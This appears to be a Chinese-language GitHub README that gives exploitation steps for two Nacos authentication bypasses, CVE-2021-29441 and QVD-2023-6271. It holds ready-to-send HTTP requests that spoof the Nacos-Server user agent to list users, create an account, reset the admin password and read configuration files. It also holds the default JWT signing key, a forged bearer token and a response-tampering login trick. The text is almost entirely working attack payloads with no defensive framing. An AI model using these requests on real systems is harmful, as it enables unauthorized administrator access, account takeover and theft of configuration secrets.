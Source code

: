 # CVE-2021-29441未授权漏洞

## 查看用户

```
GET /nacos/v1/auth/users?pageNo=1&pageSize=2
...
User-Agent: Nacos-Server
```



## 新增账户

```
POST /nacos/v1/auth/users

User-Agent: Nacos-Server
...

username=crow&password=crow
```



## 修改密码

```
PUT /nacos/v1/auth/users?accessToken=

User-Agent: Nacos-Server
...

username=nacos&newPassword=nacos
```



## 读取配置文件

```
GET /nacos/v1/cs/configs?search=accurate&dataId=&group=&pageNo=1&pageSize=99
或
GET /nacos/v1/cs/configs?search=blur&dataId=&group=&pageNo=1&pageSize=99

User-Agent: Nacos-Server
...
```





# QVD-2023-6271身份绕过漏洞

使用网站：https://jwt.io/

PAYLOAD改为

```
{
  "sub": "nacos",
  "exp": 1678899909
}
```

时间戳需要转换为未来时间

https://tool.lu/timestamp/



VERIFY SIGNATURE打钩且填入key

```
SecretKey012345678901234567890123456789012345678901234567890123456789
```

如下：

![image-20230423150609372](readme/image-20230423150609372.png)





登录改包，新增：

```
POST /nacos/v1/auth/users/login HTTP/1.1
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY4MjMxNDkyN30.xaXvkLYsL0ORhLIRTrnHeogx8RSGG55qzLJXNuobrPc
...

username=admin&password=admin
```



获取以下格式返回包

```
HTTP/1.1 200 
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Content-Security-Policy: script-src 'self'
Set-Cookie: JSESSIONID=D90CF6E5B233685E4A39C1B1BDA9F185; Path=/nacos; HttpOnly
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTkwOX0.Di28cDY76JCvTMsgiim12c4pukjUuoBz6j6dstUKO7s
Content-Type: application/json
Date: Wed, 15 Mar 2023 14:13:22 GMT
Connection: close
Content-Length: 197


{"accessToken":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTkwOX0.Di28cDY76JCvTMsgiim12c4pukjUuoBz6j6dstUKO7s","tokenTtl":18000,"globalAdmin":true,"username":"nacos"}
```



提取accessToken，重新登录，修改返回包即可登录

